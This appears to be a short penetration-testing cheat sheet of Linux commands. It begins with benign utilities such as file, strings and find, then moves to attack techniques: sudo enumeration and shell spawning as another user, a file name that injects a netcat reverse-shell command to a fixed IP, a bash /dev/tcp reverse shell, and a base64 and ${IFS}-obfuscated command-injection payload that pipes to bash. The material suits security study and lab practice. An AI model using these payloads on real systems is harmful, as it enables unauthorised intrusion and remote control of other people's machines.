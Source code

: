 ## Basic command
### Show allowing commands as root user
```
sudo -l
```

### Run command as other user
```
sudo -u <user> <command>
```
e.g.
```
sudo -u <user> /bin/bash
```
### Show file type
```
file <file name>
```

### Show the strings of printable characters in files
```
strings <file name>
```

### Read from standard input and write to standard output and files
```
echo <text> | tee -a <file>
```

### Find files created by a particular user
```shell
find / -type f -user user
```

### Inject os command to file name
```shell
touch  ';nc -c bash 10.10.14.30 4321;.php'
```
'.php' is an extension

### Reverse shell by /dev/tcp/
```shell
echo "bash -i >& /dev/tcp/<your-ip>/1234 0>&1"
```

Note that the above command cannot be combinated with ${IFS} due to "ambiguous redirect"... Therefore, we can encode the above command by base64.
```shell
echo "bash -i >& /dev/tcp/<your-ip>/1234 0>&1" | base64 -w 0
```
When we send the payload the encoded command, add decoding command:
```shell
;echo${IFS}"<your payload here>"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
```
